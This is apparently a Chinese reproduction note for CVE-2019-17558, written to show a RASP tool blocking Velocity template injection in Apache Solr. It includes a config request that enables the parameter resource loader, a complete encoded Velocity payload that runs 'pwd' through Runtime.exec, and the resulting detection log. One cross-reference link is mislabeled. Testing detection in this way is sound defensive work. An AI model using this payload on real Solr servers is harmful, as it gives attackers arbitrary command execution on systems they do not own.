



# CVE-2019-17558


## 漏洞简介

用户可以注入自定义模板，通过Velocity模板语言执行任意命令。

## 影响版本

Apache Solr 5.0.0 ~ 8.3.1

## 复现环境

与 [CVE-2021-28164](CVE-2019-0193.md#复现环境) 环境一样

### 查看solr的所有core

默认情况下params.resource.loader.enabled配置未打开，无法使用自定义模板。可以先通过如下API获取所有的core

http://localhost:8983/solr/admin/cores?indexInfo=false&wt=json



### 启用配置params.resource.loader.enabled



请求地址：
POST http://localhost:8983/solr/mail/config
```json
{
    "update-queryresponsewriter":{
        "startup":"lazy",
        "name":"velocity",
        "class":"solr.VelocityResponseWriter",
        "template.base.dir":"",
        "solr.resource.loader.enabled":"true",
        "params.resource.loader.enabled":"true"
    }
}
```

### 注入Velocity模板即可执行任意命令（开启了rasp阻断）

执行 pwd 命令
```shell
http://localhost:8983/solr/mail/select?q=1&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27pwd%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```


具体的日志
```json
{
    "protocol":"HTTP/1.1",
    "method":"GET",
    "remoteHost":"0:0:0:0:0:0:0:1",
    "cmdArray":[
        "pwd"
    ],
    "requestURI":"/solr/mail/select",
    "stackTrace":[
        "java.lang.ProcessImpl.start(ProcessImpl.java)",
        "java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)",
        "java.lang.Runtime.exec(Runtime.java:621)",
        "java.lang.Runtime.exec(Runtime.java:451)",
        "java.lang.Runtime.exec(Runtime.java:348)",
        "sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)",
        "sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)",
        "sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)",
        "java.lang.reflect.Method.invoke(Method.java:498)",
        "org.apache.velocity.util.introspection.UberspectImpl$VelMethodImpl.doInvoke(UberspectImpl.java:395)",
        "org.apache.velocity.util.introspection.UberspectImpl$VelMethodImpl.invoke(UberspectImpl.java:384)",
        "org.apache.velocity.runtime.parser.node.ASTMethod.execute(ASTMethod.java:173)",
        "org.apache.velocity.runtime.parser.node.ASTReference.execute(ASTReference.java:280)",
        "org.apache.velocity.runtime.parser.node.ASTReference.value(ASTReference.java:567)",
        "org.apache.velocity.runtime.parser.node.ASTExpression.value(ASTExpression.java:71)",
        "org.apache.velocity.runtime.parser.node.ASTSetDirective.render(ASTSetDirective.java:142)",
        "org.apache.velocity.runtime.parser.node.SimpleNode.render(SimpleNode.java:342)",
        "org.apache.velocity.Template.merge(Template.java:356)",
        "org.apache.velocity.Template.merge(Template.java:260)",
        "org.apache.solr.response.VelocityResponseWriter.write(VelocityResponseWriter.java:170)",
        "org.apache.solr.response.QueryResponseWriterUtil.writeQueryResponse(QueryResponseWriterUtil.java:65)",
        "org.apache.solr.servlet.HttpSolrCall.writeResponse(HttpSolrCall.java:789)",
        "org.apache.solr.servlet.HttpSolrCall.sendError(HttpSolrCall.java:680)",
        "org.apache.solr.servlet.HttpSolrCall.call(HttpSolrCall.java:531)",
        "org.apache.solr.servlet.SolrDispatchFilter.doFilter(SolrDispatchFilter.java:395)",
        "org.apache.solr.servlet.SolrDispatchFilter.doFilter(SolrDispatchFilter.java:341)",
        "org.eclipse.jetty.servlet.ServletHandler$CachedChain.doFilter(ServletHandler.java:1602)",
        "org.eclipse.jetty.servlet.ServletHandler.doHandle(ServletHandler.java:540)",
        "org.eclipse.jetty.server.handler.ScopedHandler.handle(ScopedHandler.java:146)",
        "org.eclipse.jetty.security.SecurityHandler.handle(SecurityHandler.java:548)",
        "org.eclipse.jetty.server.handler.HandlerWrapper.handle(HandlerWrapper.java:132)",
        "org.eclipse.jetty.server.handler.ScopedHandler.nextHandle(ScopedHandler.java:257)",
        "org.eclipse.jetty.server.session.SessionHandler.doHandle(SessionHandler.java:1588)",
        "org.eclipse.jetty.server.handler.ScopedHandler.nextHandle(ScopedHandler.java:255)",
        "org.eclipse.jetty.server.handler.ContextHandler.doHandle(ContextHandler.java:1345)",
        "org.eclipse.jetty.server.handler.ScopedHandler.nextScope(ScopedHandler.java:203)",
        "org.eclipse.jetty.servlet.ServletHandler.doScope(ServletHandler.java:480)",
        "org.eclipse.jetty.server.session.SessionHandler.doScope(SessionHandler.java:1557)",
        "org.eclipse.jetty.server.handler.ScopedHandler.nextScope(ScopedHandler.java:201)",
        "org.eclipse.jetty.server.handler.ContextHandler.doScope(ContextHandler.java:1247)",
        "org.eclipse.jetty.server.handler.ScopedHandler.handle(ScopedHandler.java:144)",
        "org.eclipse.jetty.server.handler.ContextHandlerCollection.handle(ContextHandlerCollection.java:220)",
        "org.eclipse.jetty.server.handler.HandlerCollection.handle(HandlerCollection.java:126)",
        "org.eclipse.jetty.server.handler.HandlerWrapper.handle(HandlerWrapper.java:132)",
        "org.eclipse.jetty.rewrite.handler.RewriteHandler.handle(RewriteHandler.java:335)",
        "org.eclipse.jetty.server.handler.HandlerWrapper.handle(HandlerWrapper.java:132)",
        "org.eclipse.jetty.server.Server.handle(Server.java:502)",
        "org.eclipse.jetty.server.HttpChannel.handle(HttpChannel.java:364)",
        "org.eclipse.jetty.server.HttpConnection.onFillable(HttpConnection.java:260)",
        "org.eclipse.jetty.io.AbstractConnection$ReadCallback.succeeded(AbstractConnection.java:305)",
        "org.eclipse.jetty.io.FillInterest.fillable(FillInterest.java:103)",
        "org.eclipse.jetty.io.ChannelEndPoint$2.run(ChannelEndPoint.java:118)",
        "org.eclipse.jetty.util.thread.strategy.EatWhatYouKill.runTask(EatWhatYouKill.java:333)",
        "org.eclipse.jetty.util.thread.strategy.EatWhatYouKill.doProduce(EatWhatYouKill.java:310)",
        "org.eclipse.jetty.util.thread.strategy.EatWhatYouKill.tryProduce(EatWhatYouKill.java:168)",
        "org.eclipse.jetty.util.thread.strategy.EatWhatYouKill.run(EatWhatYouKill.java:126)",
        "org.eclipse.jetty.util.thread.ReservedThreadExecutor$ReservedThread.run(ReservedThreadExecutor.java:366)",
        "org.eclipse.jetty.util.thread.QueuedThreadPool.runJob(QueuedThreadPool.java:765)",
        "org.eclipse.jetty.util.thread.QueuedThreadPool$2.run(QueuedThreadPool.java:683)",
        "java.lang.Thread.run(Thread.java:748)"
    ],
    "localAddr":"0:0:0:0:0:0:0:1",
    "parameterMap":{
        "q":[
            "1"
        ],
        "v.template":[
            "custom"
        ],
        "v.template.custom":[
            "#set($x='') #set($rt=$x.class.forName('java.lang.Runtime')) #set($chr=$x.class.forName('java.lang.Character')) #set($str=$x.class.forName('java.lang.String')) #set($ex=$rt.getRuntime().exec('pwd')) $ex.waitFor() #set($out=$ex.getInputStream()) #foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end"
        ],
        "wt":[
            "velocity"
        ]
    },
    "remoteAddr":"0:0:0:0:0:0:0:1"
}
```
单次检测性能：

2021-09-14 11:07:31 INFO  method: ProcessImpl.start.before, 耗时: 0.948619 ms

2021-09-14 11:07:31 INFO  method: jetty.request.body, 本次耗时: 0.015762,总耗时: 0.015762 ms
